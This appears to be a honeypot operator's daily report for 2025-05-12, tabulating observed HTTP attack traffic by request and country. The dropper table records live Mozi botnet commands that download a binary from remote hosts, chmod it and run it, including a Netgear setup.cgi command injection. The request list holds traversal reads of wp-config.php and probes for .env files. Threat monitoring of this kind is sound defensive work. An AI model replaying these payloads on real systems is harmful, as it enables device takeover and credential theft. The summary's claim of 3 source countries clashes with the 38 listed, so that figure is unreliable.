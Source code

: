 ```yaml
---
title: "Report: 2025-05-12 "
date: 2025-05-12
desciption: "Report: 2025-05-12" 
tags: [repport, daily]
---
```



# Daily Report: 2025-05-12 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 3 stage 1 IP address(es), linked to 3 dropper URL(s).  

There are 42 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 1093 requests were recorded during the day, originating from 3 different countries, with a peak of 188 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| CA               | Dubai              |
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                                  |
|:---------------|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 45.230.66.11   | GET /shell?cd+/tmp;rm+-rf+*;wget+http://45.230.66.11:11906/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                             |
| 117.205.81.124 | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                    |
| 176.65.148.10  | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=cd+/tmp;rm+-rf+*;wget+http://213.209.143.44/netgear.sh;chmod+777+netgear.sh;sh+netgear.sh;&curpath=/&currentsetting.htm=1; HTTP/1.1 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                                                |
|----:|----------------------:|:---------------------------------------------------------------------------------------|
| 191 |                     1 | GET /Odin/http/call1747075626 HTTP/1.1                                                 |
| 192 |                     1 | GET /OdinHttpCall1747075626 HTTP/1.1                                                   |
| 193 |                     1 | GET /odinhttpcall1747075626 HTTP/1.1                                                   |
| 207 |                     1 | GET /qa/test HTTP/1.1                                                                  |
| 208 |                     1 | GET /ci/test HTTP/1.1                                                                  |
| 209 |                     1 | GET /CP/test HTTP/1.1                                                                  |
| 210 |                     1 | GET /ad/test HTTP/1.1                                                                  |
| 211 |                     1 | GET /V1/test HTTP/1.1                                                                  |
| 212 |                     1 | GET /BU/test HTTP/1.1                                                                  |
| 213 |                     1 | GET /js/test HTTP/1.1                                                                  |
| 214 |                     1 | GET /st/test HTTP/1.1                                                                  |
| 215 |                     1 | GET /Cp/test HTTP/1.1                                                                  |
| 216 |                     1 | GET /bu/test HTTP/1.1                                                                  |
| 217 |                     1 | GET /a/test HTTP/1.1                                                                   |
| 218 |                     1 | GET /s/test HTTP/1.1                                                                   |
| 219 |                     1 | GET /m/test HTTP/1.1                                                                   |
| 225 |                     1 | GET /run/test HTTP/1.1                                                                 |
| 226 |                     1 | GET /log/test HTTP/1.1                                                                 |
| 227 |                     1 | GET /tmp/test HTTP/1.1                                                                 |
| 228 |                     1 | GET /Lib/test HTTP/1.1                                                                 |
| 229 |                     1 | GET /old/test HTTP/1.1                                                                 |
| 230 |                     1 | GET /v3/test HTTP/1.1                                                                  |
| 231 |                     1 | GET /v2/test HTTP/1.1                                                                  |
| 232 |                     1 | GET /v1/test HTTP/1.1                                                                  |
| 233 |                     1 | GET /ui/test HTTP/1.1                                                                  |
| 234 |                     1 | GET /fm/test HTTP/1.1                                                                  |
| 235 |                     1 | GET /cp/test HTTP/1.1                                                                  |
| 236 |                     1 | GET /wp/test HTTP/1.1                                                                  |
| 237 |                     1 | GET /en/test HTTP/1.1                                                                  |
| 238 |                     1 | GET /V2/test HTTP/1.1                                                                  |
| 249 |                     1 | GET /Upa7 HTTP/1.1                                                                     |
| 250 |                     1 | GET /faHM HTTP/1.1                                                                     |
| 255 |                     1 | GET /config/index?time=1747055289750012805 HTTP/1.1                                    |
| 285 |                     1 | POST /api/user/binLookup?time=1747055490748327575 HTTP/1.1                             |
| 286 |                     1 | GET /api/bin/440393?time=1747055490103060994 HTTP/1.1                                  |
| 291 |                     1 | GET /Odin/http/call1747015081 HTTP/1.1                                                 |
| 292 |                     1 | GET /OdinHttpCall1747015081 HTTP/1.1                                                   |
| 293 |                     1 | GET /odinhttpcall1747015081 HTTP/1.1                                                   |
| 396 |                     1 | GET /wp-admin/admin-ajax.php?action=revslider_show_image&img=../wp-config.php HTTP/1.1 |
| 397 |                     1 | GET /wp-admin/admin-ajax.php?action=duplicator_download&file=../wp-config.php HTTP/1.1 |
| 398 |                     1 | GET /app/etc/local.xml HTTP/1.1                                                        |
| 407 |                     1 | GET /blog1/.env HTTP/1.1                                                               |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   188 | US                 |
|  1 |                   127 | BD                 |
|  2 |                   123 | GB                 |
|  3 |                   112 | VN                 |
|  4 |                    81 | DE                 |
|  5 |                    62 | CH                 |
|  6 |                    49 | BG                 |
|  7 |                    47 | PL                 |
|  8 |                    41 | NL                 |
|  9 |                    29 | CA                 |
| 10 |                    26 | AO                 |
| 11 |                    25 | SC                 |
| 12 |                    25 | LT                 |
| 13 |                    17 | SG                 |
| 14 |                    16 | KR                 |
| 15 |                    15 | UA                 |
| 16 |                    12 | AZ                 |
| 17 |                    12 | IN                 |
| 18 |                    11 | GH                 |
| 19 |                    10 | BR                 |
| 20 |                     9 | CN                 |
| 21 |                     8 | ES                 |
| 22 |                     6 | HK                 |
| 23 |                     6 | RU                 |
| 24 |                     5 | BE                 |
| 25 |                     5 | PT                 |
| 26 |                     4 | LA                 |
| 27 |                     3 | AR                 |
| 28 |                     3 | TH                 |
| 29 |                     2 | VE                 |
| 30 |                     2 | JP                 |
| 31 |                     2 | ZM                 |
| 32 |                     2 | MD                 |
| 33 |                     2 | RO                 |
| 34 |                     2 | MC                 |
| 35 |                     1 | IT                 |
| 36 |                     1 | FR                 |
| 37 |                     1 | IL                 |
| 38 |                     1 | ID                 |
